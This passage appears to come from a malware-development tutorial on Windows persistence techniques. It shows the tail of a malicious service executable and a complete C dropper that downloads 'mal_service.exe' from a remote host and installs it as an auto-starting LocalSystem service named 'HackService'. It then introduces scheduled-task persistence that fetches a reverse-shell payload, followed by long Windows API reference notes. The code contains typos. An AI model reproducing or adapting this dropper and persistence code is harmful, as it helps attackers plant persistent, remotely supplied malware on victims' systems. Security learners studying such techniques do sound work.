SetServiceStatus(hStatus, &serviceStatus);
serviceStatus.dwCurrentState = SERVICE_RUNNING;
SetServiceStatus(hStatus, &serviceStatus);
Hack();
while (serviceStatus.dwCurrentState == SERVICE_RUNNING){
Sleep(SLEEP_TIME);
}
return;
}
void ControlHandler(DWORD request){
switch(request){
case SERVICE_CONTROL_STOP:
serviceStatus.dwWin32ExitCode = 0;
serviceStatus.dwCurrentState = SERVICE_STOPPED;
SetServiceStatus(hStatus, &serviceStatus);
CloseHandle((HANDLE)*phProcess);
return;
case SERVICE_CONTROL_SHUTDOWN:
serviceStatus.dwWin32ExitCode = 0;
serviceStatus.dwCurrentState = SERVICE_STOPPED;
SetServiceStatus(hStatus, &serviceStatus);
CloseHandle((HANDLE)*phProcess);
return;
default:
break;
}
SetServiceStatus(hStatus,&serviceStatus);
return;
}
Where:
SERVICE_TABLE_ENTRY: A Windows API structure used to tell the Service COntrol Manager (SCM) where the actual service logic begins inside a service executable. It acts as a mapping between a service's name and its entry point function.
Here are thetypedef struct _SERVICE_TABLE_ENTRY{ LPSTR lpServiceName; LPSERVICE_MAIN_FUNCTION lpServiceProc; } SERVICE_TABLE_ENTRY, *LPSERVICE_TABLE_ENTRYSERVICE_TABLE_ENTRYstructure's attributes:lpServiceName: The short name of the service. For shared process services, this is essential. For own process services, it is ignored but often set to the service's name or a null string.lpServiceProc: A function pointer to the service'sServiceMainfunction which the SCM will execute to start the service's core operations.
NOTE
A service executable must create an array of these structures, called the dispatch table, and pass it to the StartServiceCtrlDispatcher function. The last entry of this array must be {NULL, NULL} to signal the end of the table to the SCM. When a single executable hosts multiple services, it is called a shared service.
-
StartServiceCtrlDispatcher: The critical initial function that every Windows service executable must call to register the service executable's entry points with the SCM. When the SCM launches a service executable, the executable'smain()orWinMain()function must immediately call this API, causing the calling thread to block and the SCM to take over, using the provided information to launch the specified service'sServiceMainfunction on a new thread.BOOL StartServiceCtrlDispatcher( [in] const SERVICE_TABLE_ENTRY *lpServiceTable );Here is a breakdown of the
StartServiceCtrlDispatcherfunction's parameter:lpServiceTable: A pointer to an array ofSERVICE_TABLE_ENTRYstructures.StartServiceCtrlDispatcherreturnsTRUEif the function successfully dispatched the service's threads. The calling thread remains blocked until all registered services running in that executable have terminated. It returnsFALSEif function execution failed. UseGetLastError()to retrieve the error code.
-
SERVICE_STATUS: A fundamental Windows API data type used by a service to report its current status and control information sent back to the Service Control Manager.typedef struct _SERVICE_STATUS{ DWORD dwServiceType; DWORD dwCurrentState; DWORD dwControlsAccepted; DWORD dwWin32ExitCode; DWORD dwServiceSpecificExitCode; DWORD dwCheckPoint; DWORD dwWaitHint; } SERVICE_STATUS, *LPSERVICE_STATUS;Here is a breakdown of the
SERVICE_STATUSstructure's attributes:-
dwServiceType: Specifies the type of the service.SERVICE_WIN32_OWN_PROCESS(Most Common): The service runs in a process unique to it.SERVICE_WIN32_SHARE_PROCESS: The service shares a single process with other services.SERVICE_KERNEL_DRIVER: A device driver
-
dwCurrentState: The most important attribute, as it reports the service's current operational state.SERVICE_RUNNING: The service is operating normallySERVICE_STOPPED: The service is not runningSERVICE_START_PENDING: The service is starting up and initializingSERVICE_PAUSED: The service paused (not operational, but held in memory).
-
dwControlsAccepted: Specifies which control codes (commands) the service is prepared to handle via itsHandlerExfunction. _SERVICE_ACCEPT_STOP: The service can be sent aSTOPcommand. _SERVICE_ACCEPT_PAUSE_CONTINUE: The service can be sendPAUSEandCONTINUEcommands. _SERVICE_ACCEPT_SHUTDOWN: The service will be notified before the system shuts down. _SERVICE_ACCEPT_PARAMCHANGE: The service can accept changes to its configuration parameters.Multiple values can be OR'ed (
|) together. -
dwWin32ExitCode: Reports a standard Win32 error code when a service is stopping or stopped.NO_ERROR(0): Used if the service terminated normally or if the state is notSERVICE_STOPPED.- Any
ERRORCode: Used to report a standard Windows error code, if the service failed to start or stopped unexpectedly.
-
dwServiceSpecificExitCode: Reports a service-defined, custom error code when the service is stopping or stopped. Values are the same as above. -
dwCheckPoint: Used only when the service is in a pending state (SERVICE_START_PENDING,SERVICE_STOP_PENDING, etc.). It provides a value that increments periodically as the service progresses through a long initialization or termination task. It provides feedback to the SCM, proving that the service is still alive and making progress, preventing the SCM from prematurely thinking the service has frozen and killing it. -
dwWaitHint: The estimated time, in milliseconds, that the service expects to spend on an operation while in a pending state. The SCM will not mark the service as frozen until this time has elapsed. The service must update bothdwCheckPointanddwWaitHintperiodically if the operation takes longer than the hint.
-
-
RegisterServiceCtrlHandler: A key Windows API call used by a service executable to establish a callback mechanism with the Service Control Manager. It registers a function within the service executable that the SCM can call whenever an administrative tool sends a control command to the service (i.e.,STOP,PAUSE,SHUTDOWN,INTERROGATE, etc.)SERVE_STATUS_HANDLE RegisterServiceCtrlHandler( [in] LPCSTR lpServiceName, [in] LPHANDLER_FUNCTION lpHandlerProc );Here is a breakdown of the
RegisterServiceCtrlHandlerfunction's parameters:lpServiceName: The short name of the service. Must be the same name passed to theCreateServicefunction during installation.lpHandlerProc: A function pointer to the Service Control Handler, which must have a specific signature that accepts a singleDWORDrepresenting the control code.
The function has a modernized version,
RegisterServiceCtrlHandlerEx, which is preferred in new development because it allows for a user defined context pointer:SERVICE_STATUS_HANDLE RegisterServiceCtrlHandlerEx( [in] LPCSTR lpServiceName, [in] LPHANDLER_FUNCTION_EX lpHandlerProc, [in] LPVOID lpContext );Here is a breakdown of the
RegisterServiceCtrlHandlerExfunction's parameters:lpServiceName: The short name of the service.lpHandlerProc: A function pointer to the extended Service Control Handler function. This handler has a more complex signature, accepting additional parameters (dwEventType,lpEventData,lpContext)lpContext: An optional user-defined context pointer, which is passed to the Service Control Handler, allowing the handler to access service specific data or state information easily.
Both versions of the function return a
SERVICE_STATUS_HANDLE, which is used in all subsequent calls toSetServiceStatusto report any state changes within the service back to the SCM. They returnNULLif they fail. -
SetServiceStatus: The primary line of communication from a service to the Service Control Manager (SCM). Allows the service to report its current operational state, exit codes, and progress during long operations. It must be called throughout the lifecycle of a service to inform the SCM of changes in its state.Initialization: Tells the SCM it is starting up (SERVICE_START_PENDING)Running: Confirms the service is operational (SERVIE_RUNNING)Stopping: Requests more time while shutting down if cleanup takes a while (SERVICE_STOP_PENDING)Keep-Alive: Updates theCheckPointvalue during pending operations so the SCM doesn't assume the service has hung and kill it.
BOOL SetServiceStatus( [in] SERVICE_STATUS_HANDLE hServiceStatus, [in] LPSERVICE_STATUS lpServiceStatus );Here is a breakdown of the
SetServiceStatusfunction's parameters:hServiceStatus: A handle to the service's status information structure, which acts as the ID card for your service instance, ensuring the status update is applied to the correct service in the SCM is database.lpServiceStatus: A pointer to aSERVICE_STATUSstructure that contains that latest values for the service's state. Should be filled in beforehand.SetServiceStatusreturnsTRUEif the operation succeeded,FALSEotherwise.
-
_access: AC/C++runtime library function used to perform a pre-check before attempting a file operation. It is exported inio.h.int _access( const char *path, int mode )Here is a breakdown of the
_accessfunction's parameters:path: A pointer to a null-terminated string specifying the full path and filename of the file or directory to check.mode: An integer value specifying the accessibility check to perform. This is created by combining (|) the following constands:F_OK(00): Checks for file existence onlyR_OK(04): Checks for read permissionsW_OK(02): Checks for write permissionsX_OK(01): Checks for execute permissions
_accessreturns an integer value to indicate the result of the check.0indicates success (the file exists or permission has been granted).-1indicates a failure (the file does not exist or permission has not been granted). -
GetExitCodeProcess: A Windows API function used to retrieve the termination status of the specified process. Used to check if a monitored process is still running without forcing the calling thread to wait for the process to terminate.BOOL GetExitCodeProcess( [in] HANDLE hProcess, [out] LPDWORD lpExitCode );Here is a breakdown of the
GetExitCodeProcessfunction's parameters:hProcess: A handle to the process whose termination status is to be queries. This handle must havePROCESS_QUERY_INFORMATIONaccess rights.lpExitCode: A pointer to a variable that receives the process termination status (the exit code).STILL_ACTIVE: If the process is still running,the pointer will receive the valueSTILL_ACTIVE(0x103)- Any Other Value is the exit code returned by the process's main function or the value passed to the
EXITPROCESSfunction.
GetExitCodeProcessreturns aBOOL.0is failure, non-zero is success. -
Sleep: A Windows API function that suspends the execution of the current thread for a specified number of milliseconds.VOID Sleep( DWORD wdMilliseconds );Here is a breakdown of the
Sleepfunction's parameters:dwMilliseconds: The number of milliseconds the thread should pause for.Sleep(1000)pauses for 1 secondSleep(0)yields the thread's remaining time sliceSleep(INFINITE)blocks indefinitely
Now that we have our payload and our service executable, we need to create a dropper, which will install the service executable, register it with the SCM, and start it:
// dropper_service.c
#include <windows.h>
#include <stdio.h>
#include <io.h>
#define F_OK 0
LPCSTR lpServiceName = "HackService";
LPCSTR lpDisplayName = "Malware Dev Hacking Service";
LPCSTR lpPath = "C:\\Windows\\System32\\mal_service.exe";
int main(){
if(_access(lpPath, F_OK)){
HRESULT downloadedFile = URLDownloadToFile(NULL, "http://172.30.1.41:8000/mal_service.exe", lpPath, 0, NULL);
if(downloadedFile != S_OK){
print("Hmm... something went wrong. %d\n", GetLastError());
return 0;
}
}
SC_HANDLE hSCM = OpenSCManager(NULL, SERVICES_ACTIVE_DATABASE, SC_MANAGER_CREATE_SERVICE);
if(hSCM == NULL){
printf("[main->OpenSCManager] >>> Hmm... something went wrong. %d\n", GetLastError());
return 0;
}
SC_HANDLE hService = CreateService(
hSCM,
lpServiceName,
lpDIsplayName,
SERVICE_ALL_ACCESS,
SERVICE_WIN32_OWN_PROCESS,
SERVICE_AUTO_START,
SERVICE_ERROR_NORMAL,
lpPath,
NULL, NULL, NULL,
"LocalSystem",
NULL
);
if(hService == NULL){
printf("[main->CreateService] >>> Hmm... something went wrong. %d\n", GetLastError());
return 0;
}
BOOL bResult = StartService(hService, 0, NULL);
if(!bResult){
printf("[main->StartService] >>> Hmm... something went wrong. %d\n", GetLastError());
return 0;
}
if (hService)
CloseServiceHandle(hService);
CloseServiceHandle(hSCM);
return 0;
}
Where:
-
OpenSCManager: A fundamental Windows API call used to establish a connection and obtain a handle to the Service Control Manager database on a specified machine. Before a program can perform any action on a service (i.e., create, delete, start, stop, query, etc.), it must first successfully callOpenSCManager. Exported inwinsvc.h.SC_HANDLE OpenSCManager( [in, optional] LPCSTR lpMachineName, [in, optinoal] LPCSTR lpDatabseName, [in] DWORD dwDesiredAccess );Here is a breakdown of the
OpenSCManagerfunction's parameters:lpMachineName: Speficies the name of the target machine where teh SCM resides.NULLor an empty string connects to the SCM on the local computer.
lpDatabaseName: Specifies the SCM database to open.NULLorSERVICES_ACTIVE_DATABASEopens the default active database, containing all services installed on the system.
dwDesiredAccess: Specifies the access rights required for the connection. These flags determine what actions the calling process is permitted to perform once the handle is obtained. They can be combined using the OR operator (|):SC_MANAGER_CONNECT: Permission to connect to the SCM.SC_MANAGER_CREATE_SERVICE: Ability to install new Services withCreateService.SC_MANAGER_ENUMERATE: Ability to list all services in the database usingEnumServicesStatusEx.SC_MANAGER_ALL_ACCESS: Full control over the SCM and all its operations.
OpenSCManagerreturns a Service Control Handle (SC_HANDLE) if successful,NULLupon failure. -
CreateService: A key function in the Windows Service API, used to install (register) a new Windows Service with the Service Control Manager database. It is typically called by a service installation program or administrative tool and is important for defining the fundamental properties of a service, such as its name, executable path, and startup mode. It is exported inwinscv.h.SC_HANDLE CreateService( [in] SC_HANDLE hSCManager, [in] LPCSTR lpServiceName, [in, optional] LPCSTR lpDisplayName, [in] DWORD dwDesiredAccess, [in] DWORD dwServiceType, [in] DWORD dwStartType, [in] DWORD dwErrorControl, [in, optional] LPCSTR lpBinaryPathName, [in, optional] LPCSTR lpLoadGroup, [in, optional] LPDWORD lpdwTagId, [in, optional] LPCSTR lpDependencies, [in, optional] LPCSTR lpServiceStartName, [in, optional] LPCSTR lpPassword );Here is a breakdown of the
CreateServicefunction's parameters:hSCManager: A handle to the SCM database withSC_MANAGER_CREATE_SERVICEaccess rights. Obtained fromOpenSCManager.lpServiceName: The short, unique name of the service. This is the registry key name. Cannot exceed 256 characters.lpDisplayName: The user-friendly name displayed in the Services snap-in (services.msc). Cannot exceed 256 characters.dwDesiredAccess: Specifies the access to the newly created service handle. Often set toSERVICE_ALL_ACCESSorSERVICE_STARTdwServiceType: The type of service being created (ie.,SERVICE_WIN32_OWN_PROCESSorSERVICE_WIN32_SHARE_PROCESS)dwStartType: Specifies when the service should start.SERVICE_AUTO_START: Boots when the system starts up.SERVICE_DEMAND_START: Dictates that the service must be started manually (sc start <service>)
dwErrorControl: Specifies the severity of the error if the service fails to start.- 'lpBinaryPathName': The full path to the service executable, which runs when starting the service.
lpLoadGroup: The name of the load ordering group this service belongs to. UsuallyNULL.lpdwTagId: A unique tag value given to the service if it is part of a group. UsuallyNULL.lpDependencies: A list of services that must start before this service can start. A doubly null-terminated list of short service names; usuallyNULL.lpServiceStartName: The account name under which the service will run. TypicallyLocalSystem,LocalService, or a specific user account.lpPassword: The password for the specified user account inlpServiceStartName.NULLif running under a built-in account (i.e., 'LocalSystem').
CreateServicereturns a SC_HANDLE value upon success,NULLupon failure. -
StartService: A fundamental Windows Service API function used to initiated the execution of an installed Windows Service. It is exported inwinsvc.h.BOOL StartService( [in] SC_HANDLE hService, [in] DWORD dwNumServiceArgs, [in, optional] LPCSTR *lpServiceArgVectors );Here is a breakdown of the
StartServicefunction's parameters:hService: A handle to the service object. Must have been obtained previously fromOpenServiceorCreateServicewithSERVICE_STARTaccess rights.dwNumServiceArgs: The number of arguments in thelpServiceArgVectorsarray.0if no args are passed.lpServiceArgVectors: An optional array of pointers to null-terminated strings that represent arguments to be passed to the service'sServiceMain. ReturnsTRUEis successful execution. This does not mean the service is runing.FALSEif the operation failed. Commonly due to Access Denied, Database Locked, or Service Already Running.
-
CloseServiceHandle: A fundamental Windows Service API call used to release an open handle to a Service Control manager object, such as the database itself or an individual service object. Failure to close handles can lead to resource leaks.BOOL CloseServiceHandle( [in] SC_HANDLE hSCObject );Here is a breakdown of the function's parameowters:
hSCObject: The handle to the SCM object that needs to be closed.
CloseServiceHandlereturnsTRUEif successful,FALSEupon failure. Usually because the handle was invalid or already closed.
NOTE
This persistence method requires a High Integrity Level by default, as it requires the SC_MANAGER_CREATE_SERVICE access right. However, if the Access Control List on the SCM database (or the specific registry key) is modified to explicitly grant the permission to a lower-privileged user or group, the method may not require elevated privileges. It is important to enumerate users and groups to determine what privileges are available and from where.
Scheduled Tasks
Scheduled tasks let uses and administrators automate repetitive actions, such as running backups, launching applications, performing system maintenance, or sending notifications. They are managed through the Windows Task Scheduler, which lets users define tasks by specifying triggers (i.e., specific times, system startup, logon, or other events) and actions (i.e., running a program or displaying a message).
Windows offers two main APIs for creating Scheduled Tasks in C or C++: The Task Scheduler 1.0 API and the Task Scheduler 2.0 API. For new applications targeting current Windows versions, the Task Scheduler 2.0 API is strongly recommended because of its advanced features and compatibility. It is compatible with Windows Vista+, and it uses Component Object Model (COM) interfaces, such as ITaskService, ITaskDefinition and IActionCollection. It is exported through taskschd.h.
The Component Object Model (COM) is a Microsoft technology that provides standard interface for software components to interact with one another, enabling language agnostic, modular, and distributive software development. COM is used as the underlying architecture for many of Microsoft's core technologies, including:
- DirectX
- The Windows Shell
- WinRT
- The Task Scheduler API
Scheduled tasks require at least a medium integrity level by default. However, elevated users can create scheduled tasks that run with higher privileges, under system accounts.
Here, we will examine an example of a malicious scheduled task payload, which installs a reverse shell payload from a remote server and schedules it to run when the system starts.
Cross-Compiling Scheduled Task Programs Can Be Difficult. The following program defines signature's for certain Windows Service Data types, which are not accessible to cross-compilers by default. This makes the program much longer than it would otherwise have to be, though it can now successfully be compiled and run on a Windows System, so long as the correct libraries are linked during compilation.
Where:
SysAllocString: A standard Windows API function used in Component Object Model (COM) programming, which safely allocates memory for a new BSTR (Basic String) and copies a given wide-character string into it.- Part of the OLE Automation API (
oleaut32.dll). It is essential for creating strings that are correctly formatted and managed for use by COM interfaces. - A
BSTRis a special type of string used by COM and Automation. It is a pointer to the first character of the string, but the memory allocated immediately preceding the string data contains a 32-bit length prefix indicating the total number of bytes in the string (not including the final null terminator). This length prefix is what makesBSTRa safe and efficient option in COM. - If
SysAllocStringsucceeds, the memory for the newBSTRis allocated, and the caller is responsible for freeing it later using the corresponding API functionSysFreeString.
Here is a breakdown of theBSTR SysAllocString( [in, optional] const OLECHAR *sz );SysAllocStringfunction's parameters:sz: A pointer to a null-terminated, wide-character string that will be copiued into the new BSTR On success,SysAllocStringreturns a pointer to the newly allocatedBSTRstring. On failure, it returnsNULL.
- Part of the OLE Automation API (
CoInitializeEx: A fundamental Windows API function that is required to initialize the COM library for the calling thread. Every thread that uses COM services must call this function before making any other COM-related calls. It prepares the thread's infrastructure to correctly create and manage COM objects and interfaces.
Here is a breakdown of theHRESULT CoInitializeEx( [in, optinal] LPVOID pvReserved, [in] DWORD dwCoInit );CoInitializeExfunction's parameters:pvReserved: A reserved pointer value that must always be set toNULL.dwCoInit: The flag that specified the concurrency model the thread will use for COM objects. This is the critical parameter. Usually set using one of the following flags, often combined: _COINIT_APARTMENTTHREADED: Initializes the thread as an Apartment thread. All COM calls on this thread are serialized (queued) by COM, meaning object codes do not need to handle concurrent access. _COINIT_MULTITHREADED: Initializes the thread as a Free Thread. COM allows concurrent calls to objects created on this thread, meaning the object's code must handle its own thread synchronization (locking). _COINIT_DISABLE_OLE1DDE: Disables the OLE DDE support. _COINIT_SPEED_OVER_MEMORY: Instructs COM to favor performance over memory usage.CoInitializeExreturns anHRESULTvalue, which indicates success or failure:Success:S_OKorS_FALSE, meaning COM was already initialized on the threadFailure: Any value whereFAILED(hr)evaluates toTRUE.
A thread is an execution unit, while an apartment is a way of managing how threads interact with COM objects. The two main types of apartment are Single-Threaded Apartments (STAs) and Multi-Threaded Apartments (MTAs).
-
FAILED: A macro defined in the Windows SDK that is used to check the return value of any Windows function that uses theHRESULTorSCODEdata type. Its purpose is to determine if a call to a COM function resulted in an error. It is defined inwinerror.h.#define FAILED(hr)(((HRESULT)(hr)) < 0)Here is a breakdown of the
FAILEDmacro's parameters:hr: TheHRESULTvalue returned by a Windows API or COM method call. The result yielded from theFAILEDmacro is a BOOLEAN,TRUEif a failure occurred,FALSEotherwise.
-
goto: ACcontrol flow statement that performs an unconditional jump from one part of a function to another labeled statement within the same function.- It is made up of two parts:
- The
gotostatement: The instruction that causes the jump, followed by the name of the label (i.e.,goto <label_name>). - The Label: A marker that identifies the destination of the jump. It is simply an identifier followed by a colon (i.e.,
label_name: <statement>;) It is typically used to simplify complex resource management and error handling, especially when dealing with multiple points of failure that all require the same exit logic.
- The
- It is made up of two parts:
-
CoInitializeSecurity: A fundamental Windows API function used in COM programming to establish the security settings for a thread or an entire process that uses COM objects. It must be called before creating COM objects, registering interfaces, or using any COM features that involve cross-process or remote communication channels, which require an established security policy.- It establishes default security values for:
Authentication: Who can talk to the processAuthorization: What permissions they haveImpersonation: How the server handles the client's identity
HRESULT CoInitializeSecurity( [in, optional] PSECURITY_DESCRIPTOR pSecDesc, [in] LONG cAuthSvc, [in, optional] PEfenseInfo pAuthSvc, [in, optional] void *pReserved1, [in] DWORD dwAuthnLevel, [in] DWORD dwImpLevel, [in, optional] void *pAuthList, [in] DWORD dwCapabilities, [in, optional] void *pReserved3 );Here is a breakdown of the
CoInitializeSecurityfunction's parameters:pSecDesc: A pointer to the security descriptor. If this isNULL, COM constructs a default security descriptor based on the other parameters and machine settings.cAuthSvc: The count of entries in thepAuthSvcparameter. If set to-1, COM chooses which authentication services to register.pAuthSvc: An array of authentication service information structures. Typically set toNULLwhencAuthSvcis set to-1.pReserved1: Reserved. Set toNULL.dwAuthnLevel: The default authentication level for the process. This is the degree to which the server proves its identity:RPC_C_AUTHN_LEVEL_NONE: No authentication. The identity of the client is not checked. Only used for local, non-sensitive communication where performance is critical.RPC_C_AUTHN_LEVEL_CONNECT: Authentication only occurs when the client first establishes a connection with the server. Provides basic security without overhead on every call.RPC_C_AUTHN_LEVEL_CALL: Authentication occurs at the beginning of every call. Ensure client identity is valid for the duration of the call.RPC_C_AUTHN_LEVEL_PKT: Ensures all data packets send by the client contain a digital signature to verify the data's integrity and client's identity. Good for protecting against basic data tampering.RPC_C_AUTHN_LEVEL_PKT_INTEGRITY: Ensures that all data is signed and the entire message has not been modified in transit.RPC_C_AUTHN_LEVEL_PKT_PRIVACY: Provides the highest level of security. Includes packet integrity and also encrypts the argument values for every remote procedure call. Recommended for secure applications where data confidentiality is required.
dwImpLevel: The default impersonation level for proxies. Defines how much authority the client grants to the server to act on its behalf.RPC_C_IMP_LEVEL_ANONYMOUS: The client is anonymous to the server. The server cannot access any client specific information.RPC_C_IMP_LEVEL_IDENTITY: The server can obtain the client's identity and query the client's privileges but cannot impersonate the client to access resources.RPC_C_IMP_LEVEL_IMPERSONATE: The server can act on the client's behalf to access local resources on the same computer, only if the client has been granted permission.RPC_C_IMP_LEVEL_DELEGATE: The highest level. The server can act on the client's behalf to access resources on a remote computer. Requires Kerberos delegation.
pAuthList: A pointer to a list of client and server identities. Often set toNULL.dwCapabilities: A set of flags to indicate the capabilities of the client or server, primarily related to marshaling (passing interfaces between apartments or processes) and synchronization.EOAC_NONE: The default. No specific capabilities are setEOAC_MUTUAL_AUTH: Requires both the client and server to authenticate each other, ensuring two-way trust in secure applications.EOAC_STATIC_CLOAKING: Uses the client's process token when communicating with the server. Bypasses the need for explicit delegation checks in some cases.EOAC_DYNAMIC_CLOAKING: Uses the client's most recent security context when communicating. More secure than static, as it adapts to token changes.EOAC_NO_CUSTOM_MARSHAL: Prevents the use of custom marshaling, which can sometimes be exploited. Enhances security by limiting object transport mechanisms.
pReserved3: Reserved. Set toNULL.
CoInitializeSecurityreturns anHRESULT(S_OKfor Success) - It establishes default security values for:
-
CoCreateInstance: A fundamental Windows API function used in COM programming for creating an instance of a COM object and initializing it to interact with it via it's methods.HRESULT CoCreateInstance( [in] REFCLSID rclsid, [in, optional] LPUNKNOWN pUnkOuter, [in] DWORD dwClsContext, [in] REFIID riid, [out] LPVOID *ppv );Here is a breakdown of the
CoCreateInstancefunction's parameters:rclsid: The Class ID (CLSID) of the object you want to create (i.e.,CLSID_TaskScheduler,CLSID_RecycleBin,CLSID_Run)pUnkOuter: Used for aggregation. Must be set toNULLunless you are creating an aggregated object.dwClsCntext: The execution context in which the object is to be run. Specifies whether the component is in-process (DLL), local executable, or remote.riid: The Interface ID of the interface you want to retrieve a pointer to (i.e.,IID_ITask_Service,IID_ITaskFolder,IID_IRegisteredTask)CLSCTX_INPROC_SERVER: The object is implemented in a DLL and runs in the same process as the caller.CLSCTX_LOCAL_SERVER: The object is implemented in an EXE and runs as a separate process on the local machine.CLSCTX_REMOTE_SERVER: The object is implemented on a separate machine.CLSCTX_ALL: Checks all installed contexts (in-process, local, remote). General purpose usage.
ppv: The address of a pointer variable that receives the requested interface pointer (riid). If the function succeeds, this pointer is the entry point for interacting with the object. If it fails, the value is set toNULL.
CoCreateInstancereturns anHRESULTvalue, indicating success or failure. Use theFAILED()macro to check this result. -
ITaskService: A COM Interface that acts as the primary gateway to the Windows Task Scheduler service. Its methods provide the necessary functionality to connect to and manage the task hierarchy, as well as the ability to create new task definitions.-
Connect: Connects to the Task Scheduler service on the local machine or a remote machine. Typically the first method called after creating theITaskServiceobject.HRESULT ITaskService::Connect( [in, optional] VARIANT serverName, [in, optional] VARIANT user, [in, optional] VARIANT domain, [in, optional] VARIANT password );-
Here is a breakdown of the
Connectmethod's parameters:serverName: The name of the computer to connect to. If left empty, it defeaults to the local computer.user: The user name to use for connecting to the service. If empty, it defaults to the current user's credentials.domain: The domain or workgroup of the user account. If left empty, the credentials apply to the local machine or default domain.password: The password for the specified user. Must be provided ifuseris provided. If left empty, the current user's password is used.
-
Connectreturns anHRESULTvalue. TheS_OKvalue indicates success.
VARIANTis a special structure used in COM programming, OLE Automation, and scripting languages, which is designed to hold the data of almost any type, providing a standard way to pass data between COM components where the exact data type is not known until runtime. -
-
GetFolder: A crucuial function in the Windows Task Scheduler API used to navigate and access the folder hierarchy where scheduled tasks are stored, enabling subsequent operations like querying, creating, deleting, or retrieving existing tasks within that folder.HRESULT ITaskService::GetFolder( [in] BSTR path, [out] ITaskFolder **ppFolder );-
Here is a breakdown of the
GetFoldermethod's parameters:path: The path to the task folder ou want to access. This must be aBSTR. For the root folder, the path isL"\\".ppFolder: The address of a pointer variable that receives theITaskFolderinterface pointer for the requrested folder. This is the output pointer you use for subsequent task management.
-
The
GetFoldermethod returns anHRESULTvalue.S_OKindicates the folder was successfully retrieved and theppFolderpointer is valid.
-
-
NewTask: An important method in the Windows Task Scheduler API that is used to create a new, empty task definition object. It is crucial for retrieving a pointer to theITaskDefinitioninterface, which represents a blank template for a scheduled task and is where the task's properties are configured.HRESULT ITaskService::NewTask( [in] DWORD flags, [out] ITaskDefinition **ppDefinition );-
Here is a breakdown of the
NewTaskmethod's parameters:flags: Reserved for future use. Must be set to0.ppDefinition: The address of a pointer variable that receives theITaskDefinitioninterface pointer. This is the output pointer to the newly created blank task template.
-
The
NewTaskmethod returns anHRESULTvalue.S_OKindicates a new task definition object was successfully created and theppDefinitionpointer is valid.
-
-
Release: A method from the foundationalIUnknownCOM interface, used to decrement the reference count of a given COM object. It takes no parameters, It only exists to free the memory associated with a COM object, preventing memory leaks.
-
-
ITaskFolder: A COM interface, which is part of the Windows Task Scheduler API and represents a container or directory within the Task Scheduler's hierarchical structure, allowing a program to manage and interact with tasks stored in a specific location. It provides methods necessary for Task Creation, Task Deletion, Task Querying, and SubFolder management.-
DeleteTask: Permanently removes a scheduled task from a specific folder within the Windows Task Scheduler.HRESULT ITaskFolder::DeleteTask( [in] BSTR name, [in] long flags );-
Here is a breakdown of the
DeleteTaskmethod's parameters:name: The name of the task to be deleted.flags: Reserved. Set to0.
-
The
DeleteTaskmethod returns anHRESULTvalue.S_OKindicates that the task was deleted successfully.
-
-
RegisterTaskDefinition: A method within the Windows Task Scheduler API which takes a fully defined task object and registers it with the Windows Task Scheduler services making it active and persistent. It is the final and most critical step in creating or updating a scheduled task. It instructs the Task Scheduler to check the structure and contents of the Task definition, create and sae the task's XML definition file in the appropriate system directory (C:\Windows\System32\Tasks\), and update the service's internal registry and in-memory schedule so the task can be executed when its triggers are met.HRESULT ITaskFolder::RegisterTaskDefinition( [in] BSTR path, [in] ITaskDefinition *pDefinition, [in] LONG flags, [in] VARIANT userId, [in] VARIANT password, [in] TASK_LOGON_TYPE logonType, [in] VARIANT sddl, [out] IRegisteredTask **pTask );-
Here is a breakdown of the
RegisterTaskDefinitionmethod's parameters:path: The name to assign to the new task.pDefinition: A pointer to the fully configured task definition object created viaITaskService::NewTask().flags: Flags that define how the task is registered.TASK_REGISTRATION_CREATE_NEW: Creates the task only if one with the same name doesn't exist.TASK_REGISTRATION_UPDATE: Updates an existing task with the new definition.TASK_CREATE_OR_UPDATE: If the task exits, it updates it. Otherwise it creates a new one.
userId: The user account name under which the task is registered and will run. Often passed as an emptyVARIANTto use the current user's security context.password: The password for the user account specified inuserId. Often passed as an emptyVARIANT.logonType: Specifies the security context required to run the task.TASK_LOGON_NONE: The task runs with the least privileges. No credentials are explicitly required to be registered with the task. Used for non-interactive tasks where no specific user identity is required.TASK_LOGON_S4U: Services for user. The task runs under a specified user account but the user does not have to be logged on.TASK_LOGON_INTERACTIVE_TOKEN: The task runs using a token that is valid only if the user specified in the task is currently logged on. Ensures a task runs only when a user session is active.TASK_LOGON_GROUP: The task runs with the credentials of a user or a group of users specified in the task definition. Allows the task to run if any member of the specified group logs on.TASK_LOGON_SERVICE_ACCOUNT: The task runs as a service account that is already registered on the machine. Used for highly privileged background system processes that do not need a desktop session.TASK_LOGON_PASSWORD: The task runs using a specific user account and password that must be supplied and stored by the Task SCheduler. Used for running under specific accounts, often when the user is not logged on.
sddl: Security Descriptor Definition Language string, which explicitly sets the permissions for the task. It is optional and typically passed as an emptyVARIANT.ppTask: An output pointer that receives anIRegisteredTaskinterface, representing the active, newly registered task. This pointer must be released before the program exits to prevent memory leaks.
-
The
RegisterTaskDefinitionmethod returns anHRESULTvalue.S_OKindicates the task was successfully registered.
-
-
-
ITaskDefinition: A COM interface, which acts as the blueprint/template for a scheduled task in the Windows Task SCheduler API. It is the object which defines what a task does and when it does it. It provides methods for Task Triggers, Task Actions, Task Security Context, Task behaviors and more.-
get_Principal: A critical method in the Task Scheduler API used to retrieve the interface that defines the security context under which a task will run.HRESULT ITaskDefinition::get_Principal( [out] IPrincipal **ppPrincipal );- Here is a breakdown of the
get_Principalmethod's parameters: -ppPrincipal: The address of a pointer variable that will receive the IPrincipal interface pointer. This is the output pointer used to configure the tasks security context. - The
get_Principalmethod returns anHRESULTvalue.S_OKindicates theIPrincipalobject was successfully created and theppPrincipalpointer is valid.
- Here is a breakdown of the
-
get_Triggers: A fundamental method in the Task Scheduler API used to retrieve the collection interface that defines when a task will be executed. It is responsible for retrieving a pointer to theITriggerCollectionCOM interface, which adds individual triggers to the task definition.HRESULT ITaskDefinition::get_Triggers( [out] ITriggerCollection **ppTriggers );- Here is a breakdown of the
get_Triggersmethod's parameters:ppTriggers: The address of a pointer variable that will receive theITriggerCollectioninterface pointer. This is the output pointer used to manage the task's triggers.
- The
get_Triggersmethod returns anHRESULT.S_OKindicates theITriggerCollectionobject was successfully created/retrieved and theppTriggerspointer is valid. Must useRelease()when finished.
- Here is a breakdown of the
-
get_Actions: A fundamental method in the Task Scheduler API used to retrieve a pointer to the collection interface that defines what a task will execute when it is triggered.HRESULT ITaskDefinition::get_Actions( [out] IActionCollection **ppActions );- Here is a breakdown of the
get_Actionsparameters:ppActions: The address of a pointer variable that will receive theIActionCollectioninterface pointer. This is the output pointer used to manage the task's actions.
- The
get_Actionsmethod returns anHRESULTvalue.S_OKindicates that theIActionCollectionobject was successfully created/retrieved and theppActionspointer is valid. You must useRelease()when finished.
- Here is a breakdown of the
-
